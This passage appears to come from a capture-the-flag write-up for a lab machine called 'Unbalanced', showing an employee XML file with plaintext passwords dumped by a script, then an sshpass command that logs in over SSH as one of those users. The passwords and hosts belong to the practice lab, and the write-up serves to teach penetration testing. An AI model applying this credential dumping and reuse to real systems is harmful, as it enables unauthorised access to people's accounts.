 It takes a while to run, but dumps everything:

```

root@kali# time ./dump_xml.py 

<Employees>
  <Employee>
    <Username>rita</Username>
    <FirstName>Rita</FirstName>
    <LastName>Fubelli</LastName>
    <Email>rita@unbalanced.htb</Email>
    <Role>HR Manager</Role>
    <Password>password01!</Password>
  </Employee>
  <Employee>
    <Username>jim</Username>
    <FirstName>Jim</FirstName>
    <LastName>Mickelson</LastName>
    <Email>jim@unbalanced.htb</Email>
    <Role>Web Designer</Role>
    <Password>stairwaytoheaven</Password>
  </Employee>
  <Employee>
    <Username>bryan</Username>
    <FirstName>Bryan</FirstName>
    <LastName>Angstrom</LastName>
    <Email>bryan@unbalanced.htb</Email>
    <Role>System Administrator</Role>
    <Password>ireallyl0vebubblegum!!!</Password>
  </Employee>
  <Employee>
    <Username>sarah</Username>
    <FirstName>Sarah</FirstName>
    <LastName>Goodman</LastName>
    <Email>sarah@unbalanced.htb</Email>
    <Role>Team Leader</Role>
    <Password>sarah4evah</Password>
  </Employee>
</Employees>

real    29m33.703s
user    0m25.158s
sys     0m7.122s

```

### SSH

With a list of usernames and passwords, I tried each for SSH, and it worked for bryan:

```

root@kali# sshpass -p 'ireallyl0vebubblegum!!!' ssh bryan@10.10.10.200
Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Aug 19 14:03:47 2020 from 10.10.14.24
bryan@unbalanced:~$

```